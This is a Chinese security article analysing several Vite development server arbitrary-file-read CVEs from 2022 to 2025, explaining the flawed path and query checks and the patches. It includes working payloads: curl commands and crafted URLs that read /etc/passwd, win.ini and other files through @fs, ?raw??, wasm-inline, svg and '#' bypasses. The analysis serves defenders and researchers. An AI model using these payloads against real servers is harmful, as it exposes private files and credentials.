# Vite 开发服务器任意文件读取漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/17868  
> **文章ID**: 17868

---

## 引言

Vite 是一个广受欢迎的前端开发工具，以其快速的开发服务器和高效的构建流程而闻名。然而，近期披露的多个安全漏洞（CVE-2025-30208、CVE-2025-31125、CVE-2025-31486 和 CVE-2025-32395）暴露了 Vite **开发服务器**在处理 URL 请求时存在路径验证不足的问题，可能导致未经授权的攻击者通过构造恶意 URL 绕过访问限制，读取服务器上的任意文件。这些漏洞对暴露（不仅仅本地开放）在网络中的 Vite 开发服务器构成严重威胁。本文将详细分析这些漏洞的成因、影响、漏洞原理及修复建议，以帮助开发者和安全从业者更好地理解和应对这些风险。

## 漏洞概述

以下是对四个 CVE 漏洞的简要总结：

1. **CVE-2025-30208**

* **披露时间** : 2025 年 3 月 23 日
* **问题描述** : Vite 开发服务器在处理带有特定查询参数（如 ?raw?? 或 ?import&raw??）的 URL 请求时，未能正确验证路径，导致攻击者可绕过 @fs 文件访问限制，读取服务器上的任意文件（如 /etc/passwd）。

2. **CVE-2025-31125**

* **披露时间** : 2025 年 4 月 2 日
* **问题描述** : 类似于 CVE-2025-30208，Vite 开发服务器在处理 URL 请求时未严格验证路径，允许攻击者通过构造特殊 URL 绕过路径限制，读取任意文件。

3. **CVE-2025-31486**

* **披露时间** : 2025 年 4 月 8 日
* **问题描述** : 攻击者可通过使用 .svg 文件或相对路径绕过限制，读取服务器上的任意文件。

4. **CVE-2025-32395**

* **披露时间** : 2025 年 4 月 10 日
* **问题描述** : 可使用‘#’绕过对路径穿越请求的检查，未经授权的远程攻击者可以读取任意文件的内容，导致敏感信息泄漏。

## 漏洞成因

这些漏洞的核心问题在于 Vite 开发服务器在处理 URL 请求时，未能对路径和查询参数进行充分的验证。以下是主要技术细节：

**CVE-2025-30208**Vite 使用 @fs 前缀允许开发模式下直接访问绝对文件路径，并通过 ensureServingAccess() 函数检查请求是否在允许的目录范围内。然而，该函数在处理查询参数时存在缺陷。攻击者可通过在 URL 中附加 ?raw?? 或 ?import&raw?? 等查询参数，绕过正则表达式检查，访问受限文件。例如：

* GET /@fs/etc/passwd?raw??

这种请求能够绕过路径限制，返回 /etc/passwd 文件内容。问题根源在于 Vite 在处理查询字符串时未正确处理尾随分隔符（如 ?），导致安全检查失效。

* **CVE-2025-31125 和 CVE-2025-31486**这两个漏洞与 CVE-2025-30208 的机制类似，均源于路径验证不足。CVE-2025-31125 可能涉及不同的路径遍历技术，而 CVE-2025-31486 明确提到通过 .svg 文件或相对路径绕过限制。这些漏洞表明 Vite 的文件访问控制机制在多种场景下存在缺陷。
* **CVE-2025-32395**在 Node.js 的 HTTP 模块中，**http.IncomingMessage** 对象的 **url** 属性会保留请求中的 **#** 及其后的内容。Vite 的路径匹配逻辑是对#前的路径进行匹配，属于fs.allow路径。

## 漏洞复现

确保已经安装好Node.js 和 npm，我使用的Vite 版本是 4.5.9，创建测试环境项目（其实更对接vscode clone的方式调试方便切换版本）：

```
node --version
npm --version
```

```
mkdir my-vite-app
cd my-vite-app
npm init -y
```

安装 Vite 4.5.9（需要切换多个版本） 和 Vue 插件：

npm install vite@4.5.9 @vitejs/plugin-vue@^4.0.0 vue@^3.2.47 --save-dev

创建 **vite.config.js**：

```
import { defineConfig } from 'vite'
import vue from '@vitejs/plugin-vue'

export default defineConfig({
  plugins: [vue()],
})
```

创建 **index.html**：

```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Vite + Vue</title>
  </head>
  <body>
    <div id="app"></div>
    <script type="module" src="/src/main.js"></script>
  </body>
</html>
```

创建 **src/main.js**：

```
import { createApp } from 'vue'
import App from './App.vue'

createApp(App).mount('#app')
```

创建 **src/App.vue**：

```
<template>
  <div>
    <h1>你好！</h1>
  </div>
</template>

<script>
export default {
  name: 'App',
}
</script>
```

在 **package.json** 中添加脚本：

```
"scripts": {
  "dev": "vite",
  "build": "vite build",
  "preview": "vite preview"
}
```

运行开发服务器：

npm run dev



## 技术分析

文件穿越的问题需要从历史漏洞开始分析，在 Vite 中，**@fs** 是一个特殊的路径前缀，主要用于 **在开发模式下访问文件系统中的文件** ，特别是在 Vite 的开发服务器中处理文件请求时。它是 Vite 提供的一种机制，允许开发者通过特定的 URL 访问项目根目录之外的文件。<https://github.com/vitejs/vite/issues/2820>

```
http://localhost:3000/@fs/etc/passwd
http://localhost:3000/@fs/windows/debug/netsetup.log
```

该问题提出后，官方进行了修复，<https://github.com/vitejs/vite/pull/2850>。新增了一个配置项 **server.fsServeRoot**，用于显式指定 Vite 开发服务器可以服务的文件系统根目录。如果请求的文件路径超出了 **fsServeRoot**，Vite 将拒绝服务该文件，返回 403 或其他适当的错误响应。



### CVE-2022-35204

* **描述** : Vite在版本2.9.13之前存在目录遍历漏洞，攻击者通过构造特定的URL可以访问受害者服务中的任意文件。
* **受影响版本** : Vite < 2.9.13
* **修复版本** : 2.9.13、3.0.0-beta.4
* **CVSS评分** : 4.3（中等）

由于@fs新增的fsServeRoot不检测encoded路径，导致绕过。

比如/@fs/home/test/是被允许的路径，但是可以通过/@fs/home/test/%2e%2e%2f%2e%2e%2f（/@fs/home/test/../../）来绕过。

这个漏洞修复是先解码 URL，并根据解码后的路径进行 **fs.allow** 检查，再对路径重新进行 URL 编码后传递。

### CVE-2024-45811

* **描述** : 当URL参数中使用?import&raw时，Vite存在信息暴露漏洞，攻击者可绕过限制访问文件内容。需要本地网络访问权限。
* **受影响版本** : Vite < 3.2.11, < 4.5.5, < 5.2.14, < 5.3.6, < 5.4.6
* **修复版本** : 3.2.11, 4.5.5, 5.2.14, 5.3.6, 5.4.6
* **CVSS评分** : 6.0（中等）

**?raw** 和 **?import&raw** 是 Vite 提供的标准查询参数，专门用于加载原始内容，这就绕过了**fs.allow** 检查。代码参考：/packages/vite/src/node/plugins/asset.ts

#### **payload**

```
$ npm create vite@latest
$ cd vite-project/
$ npm install
$ npm run dev

$ echo "top secret content" > /tmp/secret.txt

# expected behaviour
$ curl "http://localhost:5173/@fs/tmp/secret.txt"

    <body>
      <h1>403 Restricted</h1>
      <p>The request url "/tmp/secret.txt" is outside of Vite serving allow list.

# security bypassed
$ curl "http://localhost:5173/@fs/tmp/secret.txt?import&raw"
export default "top secret content
"
//# sourceMappingURL=data:application/json;base64,eyJ2...
```

### CVE-2025-30208

上面漏洞修复的方式是在allow判断之前，根据rawRE正则判断。rawRE的正则是/(\?|&)raw(?:&|$)/，匹配?raw或者?import&raw，并检查请求的 URL 是否有权限访问。所以?raw??或者?import&raw??是可以绕过正则匹配。



GET /@fs/etc/passwd?import&raw?? HTTP/1.1

这里raw后面的两个问号，一个会在decodeURI的时候移除。



第二个问号，在removeImportQuery的时候删除。



而官方补丁修复方式是通过匹配正则/[?&]+$/，也就是n个?或者&结尾替换为空来修复。



#### payload

```
$ npm create vite@latest
$ cd vite-project/
$ npm install
$ npm run dev

$ echo "top secret content" > /tmp/secret.txt

# expected behaviour
$ curl "http://localhost:5173/@fs/tmp/secret.txt"

    <body>
      <h1>403 Restricted</h1>
      <p>The request url "/tmp/secret.txt" is outside of Vite serving allow list.

# security bypassed
$ curl "http://localhost:5173/@fs/tmp/secret.txt?import&raw??"
export default "top secret content
"
//# sourceMappingURL=data:application/json;base64,eyJ2...
```

### CVE-2025-31125

通过base64编码，通过?import&?inline=1.wasm?init将内容输出。



.wasm 文件可以通过 ?init 来导入。在处理file?import&?inline=1.wasm?init的时候cleanUrl会清除?import&?inline=1.wasm?init内容，通过inline内联为base64字符串。



#### payload

http://localhost:5173/@fs/C:/windows/win.ini?import&?inline=1.wasm?init

### CVE-2025-31486

除了inline的方式，svg也可以。

const svgExtRE = /\.svg(?:$|\?)/



#### payload

curl 'http://127.0.0.1:5173/etc/passwd?.svg?.wasm?init'

### CVE-2025-32395

由于#原因，Vite在isFileLoadingAllowed阶段，判断的路径是#前面的项目路径，绕过。





#### payload

curl --request-target /@fs/Users/doggy/Desktop/vite-project/#/../../../../../etc/passwd http://127.0.0.1:5173

**参考资料** :

* <https://github.com/vitejs/vite/issues/2820>
* <https://github.com/vitejs/vite/issues/8498>
* <https://github.com/vitejs/vite/security/advisories/GHSA-4r4m-qw57-chr8>
* <https://github.com/advisories/GHSA-356w-63v5-8wf4>
* <https://github.com/vitejs/vite/commit/315695e9d97cc6cfa7e6d9e0229fb50cdae3d9f4>
* <https://github.com/vitejs/vite/commit/80381c38d6f068b12e6e928cd3c616bd1d64803c>
* <https://github.com/vitejs/vite/commit/807d7f06d33ab49c48a2a3501da3eea1906c0d41>
* <https://github.com/vitejs/vite/commit/92ca12dc79118bf66f2b32ff81ed09e0d0bd07ca>
* <https://github.com/vitejs/vite/commit/f234b5744d8b74c95535a7b82cc88ed2144263c1>
* <https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w>
* <https://cn.vite.dev/guide/assets.html#importing-asset-as-string>
